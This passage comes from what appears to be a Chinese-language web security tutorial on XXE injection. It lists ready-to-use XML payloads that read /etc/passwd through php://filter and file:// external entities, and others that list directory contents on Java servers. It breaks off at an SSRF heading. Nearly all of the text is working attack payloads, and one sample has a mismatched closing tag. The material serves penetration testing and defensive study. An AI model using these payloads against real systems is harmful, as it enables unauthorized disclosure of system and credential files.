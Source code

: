 第二：如果目标服务器使用的是 PHP 环境，可以使用：

```bash
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

第三：将元素类别声明为 ANY：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

[![img](assets/1698894099-f7aba0c10238f7446b1475471820f9ff.png)](https://storage.tttang.com/media/attachment/2022/11/14/bc868fbc-b687-4036-8d21-cade57b23fa5.png)

### [读取目录](#toc__3)

在 java 的应用程序中，可以通过 XXE 列出目录的内容，payload 如下：

```bash
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### [SSRF](#toc_ssrf)
